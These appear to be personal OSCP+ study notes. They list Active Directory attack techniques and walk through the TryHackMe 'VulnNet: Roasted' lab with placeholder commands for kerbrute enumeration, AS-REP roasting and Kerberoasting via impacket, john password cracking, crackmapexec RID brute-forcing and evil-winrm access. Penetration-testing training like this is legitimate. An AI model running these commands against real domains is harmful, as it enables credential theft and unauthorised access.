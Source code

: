 # OSCP+ Notes
https://heathen.gitbook.io/oscp+-notes

## LainKusanagi List of OSCP like machines
https://docs.google.com/spreadsheets/u/0/d/18weuz_Eeynr6sXFQ87Cd5F0slOj9Z6rt/htmlview?pli=1

## NetSecFocus Trophy Room
https://docs.google.com/spreadsheets/u/1/d/1dwSMIAPIam0PuRBkCiDI88pU3yzrqqHkDtBngUHNCw8/htmlview

## Vulnhub Writeups
https://github.com/Vanshal/Vulnhub-Writeups

## Pentesting Cheatsheet
https://github.com/Vanshal/Pentesting-Cheatsheet

## Must-Know AD Attacks
- AS-REP Roasting
- Kerberoasting
- DCSync Attacks
- WIndows Privilege Escalation
- Mimikatz/credential extraction or Lazagna
- Pass-the-Hash
- Lateral Movement Basics
- RID-brute with anonymous logging
- Impacket login analysis

## Nice to Haves for AD
- Bloodhound Analysis
- God Potato

# TryHackMe - VulnNet: Roasted
- Scan ports, medium min max rat
- attempt anonymous access with `rpcclient`
    - Doesn't work
- SMB `smbclient` list anonymous shares with `-L`
    - Two shares are not default
        - Listing data in both shares with smbclient `-U`
            - List info with `dir` then `get` interesting files
                - Files contain PII which may be useful for AD
    - `crackmapexec` smb `<target>`
    - `seclists usernames`
    - `kerbrute` `userenum <seclists_usernames>` `--dc <target>` `-d names`
        - Reveals user with valid hash
            - `impacket-GetNPUsers <dir> -dc-ip <target> -usersfile <userfile> -format john -outputfile <hashes.txt>`
                - Reveals kerberos database hash in john format
                    - `john <hash file> --wordlist=<rockyou.txt>`
                        - Reveals password
                            - `crackmapexec smb <target> -u <enum_user> -p <john_cracked_password>`
                            - `crackmapexec winrm ...`
                            - NO SHELL
                - kerberoasting
                    `impacket-GetUserSPNs -dc-ip <target> <john_credentials> -request`
                        - Reveals kerberoast cache has a valid revealed username
- ...Save hash
    - `john <kerberoast_hash_file> --wordlist=<rockyou.txt>`
    - `crackmapexec smb <target> -u <enum_user> -p <kerberoast_john_password>`
        - no dice
    - `crackmapexec smb -u <enum_revealed_user> -p <john_crack_password> --rid-brute`
        - Reveals users under RID bruteforce
    - `crackmapexec rpc <target> -u <enum_user> -p <kerberoast_john_password>`
        - `evil-winrm -u <john_user> -p <kerberoast_john_password> -i <target>`
            - `Get-ADUser $env:username -Properties MemberOf`
            - `net user /domain`
            - `ResetPassword.vbs`
                
